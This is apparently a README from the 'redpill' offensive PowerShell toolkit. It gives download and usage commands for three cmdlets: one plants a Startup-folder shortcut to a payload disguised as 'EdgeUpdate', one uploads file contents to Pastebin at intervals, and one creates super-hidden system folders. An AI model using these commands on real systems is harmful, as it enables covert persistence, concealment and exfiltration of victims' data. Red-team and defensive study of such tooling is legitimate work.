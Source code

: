 ## Out-shortcut.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[Out-shortcut](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Out-FileFormat/Out-shortcut.ps1)|Creates an shortcut file that accepts cmdline arguments to execute|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-Shortcut.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-shortcut.ps1" -OutFile "Out-shortcut.ps1"
```

<br />

**execute:**
```powershell
#Create shortcut pointing to '$Env:TMP\Payload.exe' on startup folder with 'EdgeUpdate' description
.\Out-Shortcut.ps1 -shortcut "$Env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup" -target "$Env:TMP\Payload.exe" -description "EdgeUpdate"
```   

<br />

## SendToPasteBin.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[SendToPasteBin](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Out-FileFormat/SendToPasteBin.ps1)|Get filepath contents and paste it to pastebin.|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.ps1" -OutFile "SendToPasteBin.ps1"
```

<br />

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```

<br />

**execute:**
```powershell
Get-Help .\SendToPasteBin.ps1 -full

#Get the contents of -filepath 'string' and creates a new pastebin paste from it on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -maxpastes "1" -timeout "2" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"

#Get the contents of -filepath 'string' and creates a new pastebin paste from it each 120 seconds a max of 10 pastes on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -maxpastes "10" -timeout "120" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"
```   

<br />

## SuperHidden.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[SuperHidden](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Out-FileFormat/SuperHidden.ps1)| Query\Create\Delete super hidden system folders|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SuperHidden.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SuperHidden.ps1" -OutFile "SuperHidden.ps1"
```

<br />

**execute:**
```powershell
Get-Help .\SuperHidden.ps1 -full

#Search for 'Hidden, System' folders on predefined locations
.\SuperHidden.ps1 -Action Query

#Search for 'Hidden, System' folders on %TMP% location
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP
   
#Search for 'Hidden, System' folders on %TMP% location 'recursive' (sub-folders)
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP -Recursive true
   
#Search for folders with 'Hidden' attribute (not super Hidden, System) on %TMP%
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP -attributes Hidden
   
#Search for 'Hidden, System' folders on %TMP% location with the name of 'vault'
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP -FolderName vault
   
#Create\Modify 'Hidden, System' folder on %TMP% location with the name of 'vault'
.\SuperHidden.ps1 -Action Hidden -Directory $Env:TMP -FolderName vault
      
#Create\modify 'VISIBLE, System' folder on %TMP% location with the name of 'vault'
.\SuperHidden.ps1 -Action Visible -Directory $Env:TMP -FolderName vault
       
#Delete the super hidden 'Hidden, System' folder of %TMP% with the name of 'vault'
.\SuperHidden.ps1 -Action Delete -Directory $Env:TMP -FolderName vault
   
#Search for 'Hidden' OR 'System' directorys on %TMP% location in 'recursive' mode (scan sub-folders)
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP -Attributes "(Hidden|System)" -Recursive true    
``` 

